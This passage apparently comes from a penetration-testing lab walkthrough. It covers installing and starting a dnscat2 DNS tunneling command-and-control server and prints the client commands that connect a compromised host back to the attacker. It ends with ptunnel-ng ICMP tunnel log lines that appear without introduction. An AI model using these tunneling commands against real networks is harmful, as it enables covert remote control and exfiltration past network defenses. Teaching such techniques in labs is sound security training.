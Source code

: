 ```
Done installing documentation for bundler after 0 seconds
1 gem installed
┌─[us-academy-1]─[10.10.14.27]─[htb-ac413848@pwnbox-base]─[~/dnscat2/server]
└──╼ [★]$ bundle install

Fetching gem metadata from https://rubygems.org/.......
Using bundler 2.3.21
Following files may not be writable, so sudo is needed:
  /usr/local/bin
  /var/lib/gems/2.7.0
  /var/lib/gems/2.7.0/build_info
  /var/lib/gems/2.7.0/cache
  /var/lib/gems/2.7.0/doc
  /var/lib/gems/2.7.0/extensions
  /var/lib/gems/2.7.0/gems
  /var/lib/gems/2.7.0/plugins
  /var/lib/gems/2.7.0/specifications
Fetching ecdsa 1.2.0
Fetching salsa20 0.1.1
Fetching sha3 1.0.1
Fetching trollop 2.1.2
Installing salsa20 0.1.1 with native extensions
Installing trollop 2.1.2
Installing ecdsa 1.2.0
Installing sha3 1.0.1 with native extensions
Bundle complete! 4 Gemfile dependencies, 5 gems now installed.
Use \`bundle info [gemname]\` to see where a bundled gem is installed.
```

Subsequently, students need to start the `dnscat2` server from `Pwnbox`/`PMVPN`:

Code: shell

```shell
sudo ruby dnscat2.rb --dns host=PWNIP,port=53,domain=inlanefreight.local --no-cache
```

```
┌─[us-academy-1]─[10.10.14.27]─[htb-ac413848@pwnbox-base]─[~/dnscat2/server]
└──╼ [★]$ sudo ruby dnscat2.rb --dns host=10.10.14.27,port=53,domain=inlanefreight.local --no-cache

New window created: 0
New window created: crypto-debug
dnscat2> Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.27:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=02c5d1724e0e97a2232bc2b53018921e inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=02c5d1724e0e97a2232bc2b53018921e

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.